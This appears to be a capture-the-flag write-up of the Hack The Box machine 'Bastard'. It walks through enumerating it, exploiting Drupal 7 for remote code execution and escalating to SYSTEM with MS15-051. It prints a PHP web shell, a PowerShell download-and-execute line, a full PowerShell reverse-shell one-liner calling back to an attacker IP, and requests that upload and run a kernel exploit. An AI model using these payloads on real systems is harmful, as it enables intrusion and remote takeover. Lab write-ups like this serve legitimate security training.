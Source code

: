 ![logo](/logo.png)

# [Bastard- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 18 Mar 2017 as the seventh machine on HTB,Bastard created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Ms15-051
  *Drupal
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/optimum 10.10.10.8
```

###### Output 
![](/Windows/Windows-Medium/Bastard/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/bastard 10.10.10.9                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 20:56 EAT
Nmap scan report for 10.10.10.9
Host is up (0.38s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Bastard | Bastard
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.55 seconds
```

looking at the results  we find out that there are 3 ports open and its a `Microsoft IIS httpd 7.5 `and its running an `Drupal 7`. 

port[80]-  http
port[135]-msrpc
port[49154]-msrpc

looking at the port 80 we find a landing page [http://10.10.10.9](http://10.10.10.9)

![](/Windows/Windows-Medium/Bastard/Screenshots/bastard.png)so we try to look for the version of the drupal but on the nmap we see that their is  a changelog so we try to see what we can find in the changelog

![](/Windows/Windows-Medium/Bastard/Screenshots/changelog.png)

now searching for the exploit using searchsploit reveles that drupal 7.x can be a potential exploit of a `Remote code Execution` 

```sh
searchsploit Drupal 7.x
```

![](/Windows/Windows-Medium/Bastard/Screenshots/searchsploit.png)

lets examine the exploit to see what it does.looking at the exploit it trying to abuse the `PHP Seriallization` . The exploit requires a few small modifications to run successfully. There is a syntax error on line 16 as well as line 71. The variables that must be modified are `url`, `endpoint_path`,`filename` and `data`.

![](/Windows/Windows-Medium/Bastard/Screenshots/exploit.png)
so we have to modify the code a bit best on the gobuser i ran earlier i found out something intresting which is a endpoint which is `rest`

![](Windows/Windows-Medium/Bastard/Screenshots/rest.png)

the change would be like this just also to add some interactivity on the shell

![](/Windows/Windows-Medium/Bastard/Screenshots/modified.png)

```sh
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$phpCode = <<< 'EOD'
<?php 
  if (isset($_REQUEST['fupload'])) {
   file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.9:8000/" .$_REQUEST['fupload']));
   };
  if (isset($_REQUEST['fexec'])) {
   echo "<pre>" .shell_exec($_REQUEST['fexec']) . "<pre>";
  };
?>
EOD;


$file = [
    'filename' => 'leshack.php',
    'data' => $phpCode

```

now we run the script to execute the exploit

![](/Windows/Windows-Medium/Bastard/Screenshots/drupal.png)

so when follow the [http://10.10.10.9/leshack.php](http://10.10.10.9/leshack.php) and execute something from the browser we get a some remote execution

![](/Windows/Windows-Medium/Bastard/Screenshots/remote.png)

running the exploit will create the specified PHP file as well as generate `user.json` and
`session.json` locally. The session file contains valid cookie data for the Drupal `admin user`, and it
is possible to directly paste PHP code into a new Drupal module. Logging in as the admin user is
fairly simple and can be achieved by creating a new cookie

PHP execution can be achieved by enabling the PHP Filter module on the Modules page.
Afterwards, simply browse to Add content then to Article. Pasting PHP into the article body,
changing the Text format to PHP code and then clicking on Preview allows for easy code
execution.

# Privillage Escalation

so we check the  `systeminfo` to see if we can get any information

![](/Windows/Windows-Medium/Bastard/Screenshots/systeminfo.png)

now we first have to get a good shell so what we do after getting the remote code execution is to be able to get a good shell 

```sh
http://10.10.10.9/leshack.php?fexec=echo%20IEX%20(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.9:8000/bastard.ps1%27)%20|%20powershell%20-noprofile%20-
```

the exploit we just replicate from the prevoius box optimum

```sh
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.9',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

we set a listner to listen for the `bastard.ps1` 

![](/Windows/Windows-Medium/Bastard/Screenshots/pythonserver.png)

![](/Windows/Windows-Medium/Bastard/Screenshots/reverseshell.png)

As the target is a fresh install of `Windows Server 2008`, it is fairly easy to exploit. No service
packs or hotfixes have been installed.so we run  the sherlock script just like the prevous box to see if we can find something that is vulnerable

```sh
IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/sherlork.ps1')
```

![](/Windows/Windows-Medium/Bastard/Screenshots/sherlok1.png)

This appears to be vulnerable
![](/Windows/Windows-Medium/Bastard/Screenshots/sherlork2.png)

A bit of research reveals quite a few potential exploits,however the most reliable is `MS15-051`. [Exploit](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051)  and also some search on searchsploit reveels more infomation.

![](/Windows/Windows-Medium/Bastard/Screenshots/ms15.png)
it revel some compiled 64.vulnerability that can be uploaded to the machine to be runned.

![](/Windows/Windows-Medium/Bastard/Screenshots/ms152.png)


so we download this zip which has a good `ms15-051`  for 64 Vulnerability [ZIP](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip) Then we run this code so that we can upload the `mS15-051` and also execute to check if it working.

```sh
http://10.10.10.9/leshack.php?fupload=Ms15.exe&fexec=%20Ms15.exe%20whoami
```

![](/Windows/Windows-Medium/Bastard/Screenshots/ms153.png)

checking at the shell we see it has uploaded 

![](Windows/Windows-Medium/Bastard/Screenshots/ms154.png)

now when we go and run we get a confirmation

![](/Windows/Windows-Medium/Bastard/Screenshots/whoami.png)

since we can execute soame command using that we need a permanet shell that is easy to use so what we can do id to download a 64 `nc` so that we can use it to execute a reverse shell into the root user. [nc](https://github.com/int0x33/nc.exe/blob/master/nc64.exe)

and by doing this from the shell 

![](/Windows/Windows-Medium/Bastard/Screenshots/shellcode.png)

or this from the webrowser

![](Windows/Windows-Medium/Bastard/Screenshots/webbrowser.png)

we get a shell

![](/Windows/Windows-Medium/Bastard/Screenshots/executableshell.png)

Then now we obtain the `root and user flag`

![](Windows/Windows-Medium/Bastard/Screenshots/flags.png)

	-------------------------END successful attack @lesley----------------------